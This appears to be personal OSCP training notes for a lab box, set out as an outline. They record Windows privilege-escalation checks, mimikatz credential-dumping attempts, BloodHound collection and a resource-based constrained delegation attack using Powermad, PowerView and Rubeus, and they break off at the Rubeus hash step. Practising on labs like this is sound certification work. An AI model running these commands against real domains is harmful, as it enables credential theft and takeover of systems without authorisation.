 		- Groups
			- RDP
		- Privs
			- SeMachineAccountPrivilege enabled
			- SeChangeNotifyPrivilege enabled
			- SeIncreaseWorkingSetPrivilege enabled
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
		- access denied
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
		- same users as above
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- `wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
					- access denied
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
			- nothing new
	- mimkatz
		- wrinrm upload
			- upload /home/kali/OSCP/exploits/windows/mimikatz/x64/mimikatz.exe
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
			- no privs
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
			- no privs
	- Bloodhound
		- ./SharpHound.exe -c All --zipfilename resourced
		- `download C:\Users\L.Livingstone\20240809094820_resourced.zip homee/kali/OSCP/boxes/resource/20240809094820_resourced.zip
		- Opened the files in bloodhound
	- Resourced Delegation
		- Get-DomainObject -Identity "dc=resourced,dc=local" -Domain resourced.local
			- ms-ds-machineaccountquota is set to 10
			- Means this is exploitable
		- . ./Powermad.ps1
		- `New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
			- Get-DomainComputer fake01
				- Copy SID
					- S-1-5-21-537427935-490066102-1511301751-4101
			- ![[Pasted image 20240809112816.png]]
		- Powerview exploit method
			- `$ComputerSid = Get-DomainComputer fake01 -Properties objectsid | Select -Expand objectsid
			- `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
			- `$SDBytes = New-Object byte[] ($SD.BinaryLength)
			- `$SD.GetBinaryForm($SDBytes, 0)
			- `Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
			- `Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'
				- Returns: {1, 0, 4, 128...}
			- ![[Pasted image 20240809113302.png]]
		- After PowerView
			- `.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:resourced.local